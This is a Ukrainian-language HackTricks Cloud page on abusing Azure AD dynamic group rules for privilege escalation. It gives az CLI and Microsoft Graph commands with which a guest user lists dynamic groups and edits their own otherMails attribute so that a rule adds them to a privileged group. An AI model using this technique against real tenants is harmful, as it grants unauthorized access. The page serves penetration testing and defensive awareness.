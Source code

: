 # Az - Динамічні Групи Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Основна Інформація

**Динамічні групи** — це групи, які мають набір **правил**, і всі **користувачі або пристрої**, що відповідають цим правилам, додаються до групи. Кожного разу, коли **атрибут** користувача або пристрою **змінюється**, динамічні правила **перевіряються знову**. І коли **створюється нове правило**, всі пристрої та користувачі **перевіряються**.

Динамічні групи можуть мати **призначені ролі Azure RBAC**, але **неможливо** додати **ролі AzureAD** до динамічних груп.

Ця функція вимагає ліцензії Azure AD premium P1.

## Privesc

Зверніть увагу, що за замовчуванням будь-який користувач може запрошувати гостей в Azure AD, тому, якщо правило динамічної групи **надає дозволи** користувачам на основі **атрибутів**, які можуть бути **встановлені** у нового **гостя**, можливо **створити гостя** з цими атрибутами та **ескалювати привілеї**. Також можливо, щоб гість керував своїм власним профілем і змінював ці атрибути.

Отримати групи, які дозволяють динамічне членство: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Приклад

* **Приклад правила**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **Опис правила**: Будь-який гість з вторинною електронною поштою, що містить рядок 'security', буде доданий до групи

Для електронної пошти гостя, прийміть запрошення та перевірте поточні налаштування **цього користувача** в [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
На жаль, сторінка не дозволяє змінювати значення атрибутів, тому нам потрібно використовувати API:

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## Посилання

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
